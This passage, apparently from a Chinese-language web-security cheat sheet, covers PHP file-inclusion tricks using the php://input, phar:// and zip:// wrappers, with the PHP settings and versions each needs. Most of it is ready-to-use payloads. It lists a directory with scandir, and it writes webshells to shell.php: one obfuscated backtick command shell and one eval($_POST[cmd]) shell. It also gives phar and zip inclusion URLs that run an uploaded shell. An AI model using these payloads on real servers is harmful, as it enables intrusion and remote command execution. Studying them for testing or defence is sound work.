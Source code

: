 input协议是个可以访问请求的原始数据的只读流。使用时，将要输入的数据以post方式提交
利用条件：

```
1. PHP.ini 中 allow_url_include= On
2. php <5.0 ，allow_url_include=Off 也可以
```



### 读取目录结构

```
<?php print_r(scandir("C:\phpStudy\PHPTutorial\WWW"))?> #改成想查看的路径即可
```



### 写入木马

```
GET:<?php fputs(fopen('shell.php','w'),'<?=`{${~"\xa0\xb8\xba\xab"}[1]}`;');?>
POST:<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```




## phar

phar协议数据流包装器自PHP 5.3.0起开始。这个参数是就是php解压缩包的一个函数，不管目标文件后缀是什么，都将其当做压缩包来解压
利用条件：

```
PHP>= 5.3.0
```

payload

```
?file=phar://压缩包/内部文件
```



## zip

zip伪协议和phar协议类似,但是用法不一样
利用条件：

```
5.2.17 =<php <= 7.0.12
```

payload：

```
?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]zip://xxx.png#shell.php或zip://xxx.zip#shell.php
```


